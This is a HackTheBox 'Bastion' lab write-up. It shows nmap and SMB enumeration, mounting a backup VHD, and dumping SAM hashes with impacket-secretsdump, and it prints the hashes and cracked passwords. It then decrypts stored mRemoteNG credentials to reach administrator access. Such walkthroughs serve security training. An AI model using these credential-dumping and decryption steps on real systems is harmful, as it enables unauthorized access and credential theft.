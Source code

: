 ```yaml
---
title: HackTheBox - Bastion
description: Bastion is an Easy level WIndows box which contains a VHD ( Virtual Hard Disk ) image from which credentials can be extracted. After logging in, the software MRemoteNG is found to be installed which stores passwords insecurely, and from which credentials can be extracted. 
date: 2024-08-20 11:02:00 +0530
categories: [HackTheBox]
tags: [hackthebox, Easy, Windows]
image:
  path: /assets/img/headers/htb_bastion.webp
---
```



## Enumeration

### Nmap

Starting the enumeration with basic nmap scan

```console
$ sudo nmap -sC -sV bastion.htb                                                             
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 11:40 IST
Nmap scan report for bastion.htb (10.10.10.134)
Host is up (0.43s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-19T06:10:38
|_  start_date: 2024-08-19T04:38:43
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-19T08:10:39+02:00
|_clock-skew: mean: -39m59s, deviation: 1h09m13s, median: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.12 seconds
```


### SMB share

I found an smb share via nmap scan.

```console
$ smbclient -L bastion.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to bastion.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

I will try to mount the share and check it.

```console
$ mkdir /mnt/bastion
$ sudo mount -t cifs //10.10.10.134/backups /mnt/bastion
$ cat note.txt          

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.'

┌──(kali㉿kali)-[/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ ls   
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd                                                      cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd                                                      cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
BackupSpecs.xml                                                                               cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml                                           cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml                                     cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
```

Generally, You would need windows machine to mount a VHD file and check it easily. You would need **guesmount** tool mount vhd file in linux.  

Refer to this article for mounting VHD from a remote share. 

[https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

```console
$ apt-get install libguestfs-tools
$ apt-get install cifs-utils
$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd1 -v
```

# Foothold

## impacket-secretsdump

We can find SAM and SYSTEM files and try to dump them with `impacket-secretsdump`

```console
$ cd /mnt/vhd1/Windows/System32/config

$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL
Impacket v0.12.0.dev1+20240426.161331.37cc8f95 - Copyright 2023 Fortra

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 

$ guestunmount /mnt/vhd1
$ sudo umount /mnt/bastion
```

Use crackstation.net to crack this NTLM hash.

| Hash                            | Type | Result       |
|---------------------------------|------|--------------|
| 6112010952d963c8dc4217daec986d9 | NTLM | bureaulampje |

| Username | Password |
|---------|-----------|
| L4mpje | bureaulampje |

After logging in via SSH with creds, We can find user.txt here.
> C:\Users\L4mpje\Desktop\user.txt

# Privilege Escalation

## Enumeration - findstr

Searching for all strings with juicy info.

`findstr /si password *.txt *.ini *.config`

1. This command threw out of lot of text. out of this, i could find some text from files located in **mRemoteNG**
2. Quick Google search suggested this could be exploited to gain admin access.
3. From **changelog.txt**, we know version is _1.76.11_

## Exploit - mRemoteNG

[https://github.com/haseebT/mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)

1. Get Password string from **confCons.xml**.

`C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml`

![Bastion](/assets/img/htb_bastion/IMG-HTB-Bastion-1.png)

2. Use python script to decrypt the password string to get administrator creds.

```console
$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==                             
Password: thXLHM96BeKL0ER2
```

| Username | Password |
|---------|-----------|
| administrator | thXLHM96BeKL0ER2 |


We can now read **root.txt** after logging in as `administrator` via SSH.
>C:\Users\Administrator\Desktop\root.txt 

